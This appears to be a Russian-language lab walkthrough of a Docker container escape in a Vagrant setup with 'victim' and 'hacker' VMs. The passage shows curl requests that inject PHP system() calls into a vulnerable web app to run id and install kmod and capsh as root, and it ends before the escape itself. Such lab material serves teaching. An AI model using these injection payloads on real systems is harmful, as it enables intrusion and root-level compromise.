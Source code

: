 ```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose up -d
```

Посмотрим от имени какого пользователя запущен процесс с pid 1 в запущенном контейнере:

```
vagrant@victim:/vagrant/victim$ docker-compose exec webapp bash
root@ef07105a20f9:/app# ls -l /proc/1          
  total 0
  dr-xr-xr-x 2 root root 0 Nov 26 17:14 attr
  ...
```

Владелец файлов в директории `/proc/<PID>` аналогичен владельцу самого процесса. Это способ определить владельца в
случае если `ps` не установлен.

## Exploitation

Так как при использовании docker ядро используеться из хостовой системы, то операции с ядром (например загрузка модуля)
выполняються сразу во всех контейнерах и хостовой системе.

Зайдём в VM `hacker`:

```
$ vagrant ssh hacker
```

Проверим от имени какого пользователя запущено web-приложение, для этого выполним команду `id`:

```
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=0(root) gid=0(root) groups=0(root)
  <br>
```

Сообщение говорит нам о том, что процесс, в контексте которого мы выполняем наши команды, запущен от имени пользователя
root.

Проверим доступность команды `capsh`, которая позволит нам просмотреть доступные нам разрешения:

```
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('whereis capsh');"
  <h1> Hello world!</h1>
  capsh:
  <br>
```

Команда capsh не найдена. Установим ее:

```
vagrant@hacker:~$ curl -G 192.168.56.4 \
  --data-urlencode "code=system('apt-get update && apt-get install -y libcap2-bin kmod');"
...
```

